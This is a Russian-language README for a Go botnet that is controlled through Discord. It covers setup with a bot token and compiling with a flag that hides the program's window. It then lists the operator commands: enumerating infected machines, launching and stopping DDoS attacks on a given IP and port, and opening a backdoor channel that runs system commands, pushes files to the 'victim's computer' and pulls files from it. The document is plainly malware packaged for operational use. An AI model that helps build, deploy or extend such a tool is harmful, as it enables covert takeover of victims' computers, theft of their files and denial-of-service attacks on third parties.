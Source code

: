 # Botnet
Данный ботнет использует discord API для связи с сервером

### Настройка:
- В файле `token.txt` вставьте токен вашего дискорд бота

### Компиляция
- Что бы скомпилировать программу, используйте следующюю комманду:<br>
`go build -ldflags "-H windowsgui"`<br>
- Если нужно скомпилировать под другую систему: https://habr.com/ru/post/249449/

### Команды ботнета:
- `!botnet` - Доступные компьютеры
- `!ddos <ip:port>` - DDOS IP адреса по отдельному порту
- `!stop-ddos` - Остановка DDOS
- `!<hostname>` - Удаленный доступ к компьютеру(hostname можно узнать из команды `!botnet`)

### Функционал бекдора:
После выполнении команды `!<hostname>` бедет создан канал с именем компьютера<br>
В этом канале можно прописывать системные команды, которые бот будет исполнять на компьютере жертвы<br>
#### Так же имеются другие команды:
- `download <url> or прикрепить файл` - Скачает файл на удаленный компьютер
- `get <имя файла>` - Получит файл с компьютера жертвы
- `exit` - Выйти с удаленного компьютера и удалить канал